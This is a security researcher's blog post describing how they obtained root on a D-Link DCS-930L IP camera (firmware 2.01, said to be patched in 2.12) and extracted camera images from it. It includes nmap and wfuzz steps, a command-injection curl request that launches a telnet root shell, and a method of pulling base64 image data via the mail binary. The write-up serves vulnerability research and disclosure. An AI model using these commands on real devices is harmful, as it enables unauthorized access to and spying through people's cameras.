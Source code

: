 # DLink DCS 930L

Published: April 25, 2016

In late 2015, I decided to start researching IP Cameras.  I decided to try out the cheapest models available on Amazon.com, both because I thought those models would be more “fruitful” and because I was trying to do this research on a budget.  It turns out that the security on these lower model IP Cameras is really bad.

I looked at five different IP Cameras and was able to gain root access on four of them within a few hours of starting to poke at them.  All of the cameras I looked at cost between $30-$70, and can be purchased directly from Amazon.com.

My goals in completing this research were two-fold:
1. Gain root access on the camera
2. Find a way to exfiltrate camera stills or video off the camera

On all four of the cameras I rooted, I was able to exfiltrate image data off of the device.

Today we’re going to look at one of the models I was able to gain root access on.  I chose this model because a subsequent patch fixed the vulnerability that allowed me to gain root access.

I started by running nmap to check the available ports.  Nothing too interesting there.

```
 Nmap scan report for 192.168.1.13
 Host is up (0.0026s latency).
 Not shown: 65532 closed ports
 PORT     STATE SERVICE
 80/tcp   open  http
 443/tcp  open  https
 8750/tcp open  unknown
 ```

This camera has pretty extensive web administration capabilities, including the ability to upload vendor supplied patches to update the device.  However, the version we will be looking at today is the version that comes installed on the device when you open the box: version 2.01.  The default credentials, which come printed in the documentation with the device, are `admin:admin`. The vulnerability I exploit below is patched in version 2.12 and above, which is available from the DLink website. 

My first try involved checking the various HTML inputs.  This turned up a couple of not very interesting cross site scripting vulnerabilities that would be hard to exploit in the wild.

## Wfuzz

My second try began with running wfuzz with the `directory-list-2.3-medium.txt` word list that comes with every default Kali Linux installation.  For those of you not familiar with wfuzz, it is a tool like dirbuster that facilitates directory enumeration on web servers that do not allow directory indexing.  Running wfuzz turned up a lot of html documents that I was already aware of, plus a few more that seemed useless - and then one that turned out to be the beginning of the jackpot: html.htm.

## Html.htm

Load html.htm in a browser and the HTML document will contain a list of all the webpages available in the web root.  It is more or less a directory index listing.  I navigated through each one of the pages until I found the next stage of the jackpot: docmd.htm!

## Docmd.htm and Telnet Injection

Docmd.htm contains a text box and a submit button.  This form allows direct command execution on the device.  So what’s the next logical step?

`telnetd -l/bin/sh`

A curl command capable of accomplishing this would look like:

`curl 'http://$CAMERA_IP/setSystemCommand' -H 'Authorization: Basic $BASICAUTH_CREDS' -H 'Content-Type: application/x-www-form-urlencoded' --data 'ReplySuccessPage=docmd.htm&ReplyErrorPage=docmd.htm&SystemCommand=telnetd&ConfigSystemCommand=Save'`

Fire up telnet or netcat and connect to port 23 of the camera.  Root shell accomplished!

## Image Exfiltration

While the root shell was not too difficult to load up, it took significantly longer to figure out how to capture image data.  I started by documenting all the binaries available in the PATH and elsewhere on the filesystem, and then working my way through each to see what they did:

```bash
 # ls /bin
 chmod          htmlunpack     sounddb        imagetp        ated           umount         ps             swing
 busybox        nvram_daemon   mknod          mail           kill           uvc_stream     rm             alphapd
 nvram_set      ash            openssl        ping           ralink_init    msmtp          i2c            gpio
 ls             pcmcmd         echo           notifystream   switch         mDNSResponder  lanconfig
 touch          sed            pppoecd        reg            audiopush      cp             mkdir
 upgradefw      mount          login          lld2d          iperf          mydlinkevent   ipush
 ntpclient      iwpriv         sleep          pwd            sh             nvram_get      cat
 grep           inadyn         date           schedule       mii_mgr        mtd_write      ov7740
 # ls /sbin
 automount_boot.sh    config-udhcpd.sh     udhcpc               reboot               udev                 config-igmpproxy.sh
 snort.sh             zcip                 cpubusy.sh           ucp                  wlan.sh              pppoe.sh
 ddns.sh              udhcpc.sh            acodec               route                poweroff
 internet.sh          ntp.sh               vpn-passthru.sh      web.sh               snmp.sh
 video.sh             config-dns.sh        config-pppoe.sh      arp                  dhcp.sh
 config-iTunes.sh     chpasswd.sh          halt                 ifconfig             automount.sh
 zcip.sh              init                 lan.sh               mdev                 cameraname.sh
 # ls /usr/bin
 killall      free         expr         test         ftpd         arping       printf
 [            [[           uptime       ftpputimage  top          tr
 # ls /usr/sbin
 chpasswd  inetd     brctl     telnetd
```

I eventually came across the `mail` command, which allowed me to write a `mail` message to `/tmp/mail.txt`.  Inside that file is the base64 encoded image data from the moment the “mail” command was run. Copy that data into a tmux buffer, write it to your local filesystem and base64 decode that raw data for an image file!

I also created a Metasploit module for this vulnerability: [https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution](https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution)

[Back](https://nstarke.github.io/)